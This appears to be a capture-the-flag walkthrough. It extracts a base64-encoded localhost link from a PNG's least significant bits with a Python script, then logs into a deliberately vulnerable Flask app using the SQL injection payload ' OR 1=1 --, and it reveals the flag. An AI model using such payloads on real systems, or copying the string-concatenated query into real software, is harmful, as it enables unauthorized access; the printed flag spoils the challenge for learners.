 # Walkthrough everything!

## About the challenge

This is a CTF challenge that uses LSB steganography and web exploitation. The challenge consists of hiding a link in the photo given. The LSBs of pixels of the photo were modified to store the link. The link directs us to the web page which is to be exploited for the flag. The flag is of the format `flag{...}`.

## Solution

To solve the CTF, we first need to decode the `.png` file given to us.
<br>
<br>
To decode the photo, we will use the following script:-
```python
from PIL import Image

def decode_lsb(image_path):
    img = Image.open(image_path)
    pixels = img.load()
    width, height = img.size

    binary_data = []
    for y in range(height):
        for x in range(width):
            r, g, b = pixels[x, y][:3]  # Get RGB values (ignoring alpha if present)
            binary_data.append(r & 1)  # Extract LSB from Red
            binary_data.append(g & 1)  # Extract LSB from Green
            binary_data.append(b & 1)  # Extract LSB from Blue

    # Here we will convert the binary lists into bytes.
    message = []
    for i in range(0, len(binary_data), 8):
        byte = binary_data[i:i+8]
        if len(byte) < 8:
            break  # Incomplete byte
        char = int(''.join(map(str, byte)), 2)
        if char == 0:  # Null terminator (optional)
            break
        message.append(chr(char))

    return ''.join(message)

image_path = "city_of_OZ.png"
hidden_message = decode_lsb(image_path)
print("Hidden Message:", hidden_message)
```

<br>

This will lead us with the message "aHR0cDovL2xvY2FsaG9zdDo1MDAw" which can be easily recognised as a base64 code. When converted, we get "http://localhost:5000". This is the link for the web that is to be exploited.

<br>
<br>

After this, we will exploit the web page. This can be done using SQL injection.
What Happened: In our Flask app, the login query concatenates user input directly into the SQL query:

```python
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
```
Exploit: By injecting ' OR 1=1 -- into the username field, the query becomes:

```sql
SELECT * FROM users WHERE username='' OR 1=1 -- ' AND password=''
```
* OR 1=1 makes the condition always true.
* -- comments out the rest of the query (ignoring the password check).
<br>
<br>
Then we finally get the flag!
<br>

**`flag{2401AI17}`**
